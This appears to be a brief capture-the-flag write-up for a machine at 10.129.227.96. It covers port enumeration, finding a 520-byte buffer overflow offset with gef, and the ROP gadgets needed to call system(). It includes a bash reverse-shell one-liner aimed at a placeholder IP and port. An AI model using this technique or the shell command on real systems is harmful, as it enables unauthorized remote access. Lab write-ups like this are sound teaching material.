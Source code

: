 
### Enumeration

Two ports open 22, 80

10.129.227.96


### Buffer overflow

the char code from Ghidra says to accept char buffer [512]

```bash
gef➤ pattern create 600

gef➤  pattern offset $rsp
[+] Searching for '7061616161616163'/'6361616161616170' with period=8
[+] Found at offset 520 (little-endian search) likely
gef➤
```

For this buffer overflow, we need to inject into the "system" the following command

```bash
bash -c 'bash -i &> /dev/tcp/<ip address>/port 0>&1'
```

For this exploit, we need the following settings
	- activate license address
	- libc address
	- inject pop rdi
	- pop rsi
	- mov [rdi], rsi
	- the writeable section ".data"


